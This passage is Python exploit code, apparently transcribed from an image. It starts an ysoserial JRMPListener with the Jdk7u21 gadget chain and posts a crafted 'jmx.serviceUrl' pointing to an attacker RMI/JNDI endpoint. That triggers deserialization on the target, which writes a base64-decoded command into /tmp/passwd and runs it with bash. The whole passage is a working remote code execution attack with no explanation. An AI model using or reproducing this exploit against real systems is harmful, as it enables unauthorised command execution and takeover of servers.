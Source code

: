         pro = subprocess.Popen(
            "java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21 'sed -i /[^pwn]/d /tmp/passwd'", stdout=subprocess.PIPE, shell=True, preexec_fn=os.setsid)

        print("[+] Cleaning temp file =&gt;", end=' ')
        burp0_url = remote + ressource
        burp0_headers = {"Content-Type": "application/json"}
        burp0_json = {
            "set-property": {"jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://" + RHOST + ":" + RPORT + "/obj"}}
        r = requests.post(
            burp0_url, headers=burp0_headers, json=burp0_json)
        if r.status_code == 500:
            print("\033[92mOK\033[0m")
        else:
            print("KO")
            os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
            sys.exit()
        os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
        time.sleep(3)

        pro = subprocess.Popen(
            "java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21 'sed -i 1s/pwn/{echo," +
            command_str + "}|{base64,-d}&gt;pwn.txt/g /tmp/passwd'", stdout=subprocess.PIPE, shell=True, preexec_fn=os.setsid)

        print("[+] Writing command into temp file =&gt;", end=' ')
        burp0_url = remote + ressource
        burp0_headers = {"Content-Type": "application/json"}
        burp0_json = {
            "set-property": {"jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://" + RHOST + ":" + RPORT + "/obj"}}
        r = requests.post(
            burp0_url, headers=burp0_headers, json=burp0_json)
        if r.status_code == 500:
            print("\033[92mOK\033[0m")
        else:
            print("KO")
            os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
            sys.exit()
        os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
        time.sleep(3)

        pro = subprocess.Popen(
            "java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21 'bash /tmp/passwd'", stdout=subprocess.PIPE, shell=True, preexec_fn=os.setsid)

        print("[+] Decode base64 command =&gt;", end=' ')
        burp0_url = remote + ressource
        burp0_headers = {"Content-Type": "application/json"}
        burp0_json = {
            "set-property": {"jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://" + RHOST + ":" + RPORT + "/obj"}}
        r = requests.post(
            burp0_url, headers=burp0_headers, json=burp0_json)
        if r.status_code == 500:
            print("\033[92mOK\033[0m")
        else:
            print("KO")
            os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
            sys.exit()
        os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
        time.sleep(3)
